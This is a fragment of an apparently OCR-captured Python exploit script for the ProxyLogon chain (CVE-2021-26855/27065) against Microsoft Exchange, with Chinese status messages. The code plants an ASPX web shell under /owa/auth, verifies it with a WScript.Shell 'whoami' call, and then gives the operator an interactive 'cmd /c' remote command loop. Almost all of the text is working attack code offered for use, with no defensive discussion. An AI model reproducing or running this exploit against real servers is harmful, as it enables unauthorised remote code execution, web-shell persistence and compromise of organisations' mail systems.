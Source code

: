 ```python
                json=reset_oab_body,
                proxies=proxies,
                verify=False
            )

            if ct.status_code != 200:
                print("写入shell失败")
                exit()
            shell_url = "https://"+target+"/owa/auth/test11.aspx"
            print("成功写入shell：" + shell_url)
            print("下面验证shell是否ok")
            print('code=Response.Write(new ActiveXObject("WScript.Shell").exec("whoami").StdOut.ReadAll());')
            print("正在请求shell")
            import time
            time.sleep(1)
            data = requests.post(shell_url, data={
                                "code": "Response.Write(new ActiveXObject(\"WScript.Shell\").exec(\"whoami\").StdOut.ReadAll());"}, verify=False, proxies=proxies)
            if data.status_code != 200:
                print("写入shell失败")
            else:
                print("shell:"+data.text.split("OAB (Default Web Site)")
                    [0].replace("Name                            : ", ""))
                print('[+]用户名: '+ new_email)
                final_shell = shell_url
                break
        except:
            print('[-]用户名: '+new_email)
            print("=============================")
    if not final_shell:
        sys.exit()
    print("下面启用交互式shell")
    while True:
        input_cmd = input("[#] command: ")
        data={"code": """Response.Write(new ActiveXObject("WScript.Shell").exec("cmd /c %s").stdout.readall())""" % input_cmd}
        ct = requests.post(
            final_shell,
            data=data,verify=False, proxies=proxies)
        if ct.status_code != 200 or "OAB (Default Web Site)" not in ct.text:
            print("[*] Failed to execute shell command")
        else:
            shell_response = ct.text.split(
                "Name                            :")[0]
            print(shell_response)

```

CVE-2021-26855与CVE-2021-27065一起使用就是ProxyLogon，可以不需要邮箱用户的凭证就可以实现RCE
